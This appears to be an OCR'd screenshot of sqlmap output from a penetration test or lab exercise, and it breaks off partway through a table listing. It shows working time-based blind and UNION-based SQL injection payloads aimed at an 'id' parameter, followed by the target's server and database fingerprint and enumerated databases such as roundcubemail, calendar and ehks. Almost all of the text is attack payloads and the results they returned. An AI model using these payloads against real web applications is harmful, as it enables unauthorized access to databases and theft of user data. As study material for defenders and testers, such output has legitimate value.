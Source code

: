 Payload: page=blog&title=Blog&id=2 AND (SELECT * FROM (SELECT(SLEEP(5)))kOtW)

Type: UNION query
Title: Generic UNION query (NULL) - 5 columns
Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162707871,0x4f75614351414f4d6e69,0x7176717671),NULL--
---
[12:06:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL 5.0.12
[12:06:31] [INFO] fetching database names
[12:06:31] [INFO] fetching tables for databases: 'calendar, ehks, information_schema, mysql, roundcubemail, test'
Database: calendar
[5 tables]
+---------------------------------------+
| phpc_calendars                        |
| phpc_events                           |
| phpc_sequence                         |
| phpc_users                            |
| uid                                   |
+---------------------------------------+

Database: roundcubemail
[6 tables]
+---------------------------------------+
| session                               |
| cache                                 |
| contacts                              |
| identities                            |
| messages                              |
| users                                 |
+---------------------------------------+

Database: ehks
[3 tables]
+---------------------------------------+
| user                                  |
| blog                                  |
| comment                               |
+---------------------------------------+

Database: information_schema
[16 tables]
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
